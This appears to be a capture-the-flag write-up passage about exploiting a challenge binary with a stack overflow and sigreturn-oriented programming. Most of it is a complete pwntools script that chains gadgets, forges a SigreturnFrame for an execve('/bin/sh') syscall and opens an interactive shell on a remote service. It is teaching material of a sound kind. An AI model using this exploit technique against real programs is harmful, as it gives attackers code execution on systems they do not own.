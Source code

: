 
We notice that there is no `pop rdi` gadget, meaning we can't directly use `execve` since we cannot specify the filename. However, using the available gadgets, we can jump back to the `read` call with a different address to write into, enabling us to set up a second-stage attack to prepare for SROP.

With SROP, we can fully control the program's context. This allows us to configure everything necessary for an `execve` syscall, set the instruction pointer (`rip`) to the syscall instruction, and win.

Here is the script for this exploit:
```python
from pwn import *

context.binary = elf = ELF('./chall', checksec=False)
context.log_level = "DEBUG"
context.terminal = "cmd.exe /c start wsl".split()

# p = elf.process()#; gdb.attach(p, "b*0x40137D\nc")
p = remote("", )

p.sendlineafter(b"be? ", b"-1")

POP_RAX = 0x4011E6
POP_RSI = 0x4011E4
POP_RDX = 0x4011E2
SYSCALL = 0x4011E8

STAGE2_ADDR = elf.bss(0xa00)

stage1 = flat([
    POP_RAX,
    STAGE2_ADDR + 0x40,
    POP_RDX,
    0x300,
    0x401361
])

p.sendlineafter(b"text:\n", b"A"*0x20 + p64(STAGE2_ADDR + 0x40) + stage1)

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = STAGE2_ADDR + 0x40
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = SYSCALL
frame.rsp = 0xdeadbeef

stage2 = b"/bin/sh\0" + flat([
    POP_RAX,
    0xf,
    SYSCALL
]) + bytes(frame)

p.sendlineafter(b"care!\n", stage2)
p.interactive()
```
